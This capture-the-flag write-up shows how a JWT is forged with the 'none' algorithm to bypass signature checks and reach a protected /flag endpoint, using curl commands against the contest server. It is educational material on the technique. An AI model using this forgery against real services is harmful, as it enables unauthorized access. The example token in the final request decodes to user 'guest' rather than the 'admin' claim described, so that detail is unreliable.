# Token of Trust - CTF Challenge Writeup

## Challenge Information
> Name: Token of Trust  
Description: At first, this web app seems straightforward, but there's something more lurking beneath the surface. It relies on a token for user authentication, but not everything is as secure as it seems. Look closely, and you might discover that the system's trust can be manipulated. The secret is hidden within the way this token is used. Can you find the key to unlock what's been concealed?  
Target: http://34.131.133.224:9999/

## Challenge Overview
This challenge presents a web application that uses token-based authentication for controlling access. At first glance, the application appears to be a standard login system, but there's a security flaw in how it handles and validates authentication tokens.

The challenge hints that the system's "trust can be manipulated," suggesting that the token validation mechanism is vulnerable. Our goal is to exploit this vulnerability to access protected resources and retrieve the hidden flag.

## Solution Walkthrough

### Step 1: Initial Reconnaissance
Upon visiting the main page at http://34.131.133.224:9999/, we see the following message:

```
Welcome to the main page!
To log in, visit /login. But remember, POST requests are my love language. ❤️
PS: Don't forget to set your headers for JSON, or I'll just ignore you. 😉
```

This gives us clear instructions:
- We need to visit the `/login` endpoint
- We should use POST requests
- We need to set appropriate JSON headers

### Step 2: Exploring the Login Endpoint
When accessing the `/login` endpoint, we receive the following response:

```
Oops! Wrong approach.
You can't just walk in here without a proper POST request.
Try sending a JSON payload like this: {"user":"ace","pass":"ctf"}.
Hint: I only care about your request format, not your credentials. 😉
```

This confirms we need to send a POST request with a JSON payload, and interestingly, the hint suggests that the actual credentials don't matter - only the format.

### Step 3: Authentication and JWT Analysis
Next, we send a POST request to the `/login` endpoint with the suggested JSON payload:

```bash
curl -X POST http://34.131.133.224:9999/login \
  -H "Content-Type: application/json" \
  -d '{"user":"ace","pass":"ctf"}'
```

The server responds with a JWT (JSON Web Token). To analyze this token, we use the JWT decoder at https://fusionauth.io/dev-tools/jwt-decoder.

When decoded, we can see the token consists of three parts:
1. **Header**: Contains the token type and signing algorithm (HS256)
   ```json
   {
     "alg": "HS256",
     "typ": "JWT"
   }
   ```
2. **Payload**: Contains the claims
   ```json
   {
     "user": "guest"
   }
   ```
3. **Signature**: Used to verify the token hasn't been tampered with

### Step 4: JWT Manipulation
The key vulnerability here is related to the JWT's algorithm. JWT supports multiple algorithms for signing, including an algorithm called "none" which effectively means "no signature verification."

In a secure implementation, the server should reject tokens with the "none" algorithm. However, many JWT libraries had vulnerabilities where they would accept "none" algorithm tokens, effectively bypassing signature verification.

We modify the JWT by changing the algorithm in the header from "HS256" to "none" and removing the signature part:

Original header:
```json
{
  "alg": "HS256",
  "typ": "JWT"
}
```

Modified header:
```json
{
  "alg": "none",
  "typ": "JWT"
}
```

**Payload**: Contains the claims
   ```json
   {
     "user": "admin"
   }
   ```

### Step 5: Discovering Hidden Endpoints
Now we need to find where to use our manipulated token. A common technique in web application reconnaissance is checking the robots.txt file, which often contains information about restricted areas of a website.

When checking `http://34.131.133.224:9999/robots.txt`, we discover a disallowed endpoint: `/flag`.

### Step 6: Accessing the Protected Resource
With our manipulated JWT and the knowledge of the `/flag` endpoint, we can now try to access this protected resource:

```bash
curl -X POST http://34.131.133.224:9999/flag \
  -H "Authorization: Bearer eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJ1c2VyIjoiZ3Vlc3QifQ." \
  -H "Content-Type: application/json"
```

### Step 7: Flag Retrieval
The server accepts our manipulated token with the "none" algorithm and processes our request as if we were authenticated with valid credentials. The server responds with the flag:

```
ACECTF{jwt_cr4ck3d_4dm1n_4cce55_0bt41n3d!}
```
## Flag
`ACECTF{jwt_cr4ck3d_4dm1n_4cce55_0bt41n3d!}`
